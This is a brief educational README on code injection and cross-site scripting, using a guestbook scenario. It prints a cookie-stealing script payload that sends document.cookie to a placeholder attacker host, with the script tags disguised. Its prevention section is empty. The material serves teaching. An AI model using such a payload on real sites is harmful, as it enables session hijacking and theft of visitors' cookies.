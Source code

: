 # Script Injection

# What?
* Code injection in general is when some code is placed (injected) into a vulnerable program.

* Much like a injecting drugs, this will have a serious effect - and this won't always be a good thing. Like injecting a local anesthetic to allow a friendly operation on your teeth :


![](http://weknowyourdreamz.com/images/teeth/teeth-01.jpg)


or a hard class A that will lead to a life of theft and no teeth, ![no teeth](http://4.bp.blogspot.com/_B1LlYh6iKqs/TLD7j0p2rsI/AAAAAAAAC-Y/CwVAtJA8MmA/s1600/rotten-teeth-6.jpg)

there are benign and malign code injections.

### Benign
* Introduce a useful new column that did not appear in the original design of a search results page.

* Offer a new way to filter, order, or group data by using a
field not exposed in the default functions of the original design.

* As with programs like Dropbox, add special parts that could be used to connect to online resources in an offline program.




### Malign

* Often disastrous!

* Change, add, or remove internal code with a possibility of doing anything.

* Steal cookies - data, passwords, session IDs etc.

* Used to set up elaborate fishing scams.

* Could even be used to propagate a worm, which could entirely destroy all the code.



# How?

* A web server has a guestbook script, which accepts small messages from users, and typically receives messages such as

--- Very nice site!

However a malicious person may know of a code injection vulnerability in the guestbook, and enters a message such as (the ## are in place of < as READme files will also ignore script tags!)

Nice site,  I think I'll take it.

--- ##script> document.location="http://some_attacker/cookie.cgi?" + document.cookie ##close/script>

If another user views the page then the injected code will be executed. This code can allow the attacker to impersonate another user. However this same software bug can be accidentally triggered by an unassuming user which will cause the website to display bad HTML code.


# Preventing XSS




## References

* [XSS article](http://www.thegeekstuff.com/2012/02/xss-attack-examples/)
* [video on cross scripting](https://www.youtube.com/watch?v=OVLz6RgOjIY)
* [video on cross scripting](https://www.youtube.com/watch?v=V79Dp7i4LRM)
* [Further articles on code injection](https://en.wikipedia.org/wiki/Code_injection)
* [Article on prevention](https://www.owasp.org/index.php/XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet#HTML_entity_encoding )
